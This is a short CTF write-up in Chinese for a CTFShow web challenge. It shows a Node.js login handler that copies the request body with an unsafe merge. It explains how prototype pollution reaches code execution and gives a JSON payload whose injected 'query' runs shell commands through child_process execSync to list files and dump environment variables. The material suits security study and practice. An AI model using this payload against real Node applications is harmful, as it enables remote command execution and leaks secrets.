 - # 题解
	- `/login`
	- ```js
	  res.type('html');
	  var flag='flag_here';
	  var user = new function(){
	    this.userinfo = new function(){
	      this.isVIP = false;
	      this.isAdmin = false;
	      this.isAuthor = false;
	    };
	  }
	  utils.copy(user.userinfo,req.body);
	  if(user.userinfo.isAdmin){
	    res.end(flag);
	  }else{
	    return res.json({ret_code: 2, ret_msg: '登录失败'});  
	  }
	  ```
	- 第十行存在原型链污染，但是`isAdmin`参数已经设置，无法直接污染第十一行
	- 基本思路和 [[CTF/WP/CTFShow/web339]]相同
	- Payload:
	- ```json
	  {"username":"a","password":"1","__proto__": {"__proto__":{"query":"return (() =>{try {return global.process.mainModule.constructor._load('child_process').execSync('echo $(ls .) $(env)').toString();}catch(e){return e;}})();"}}}
	  ```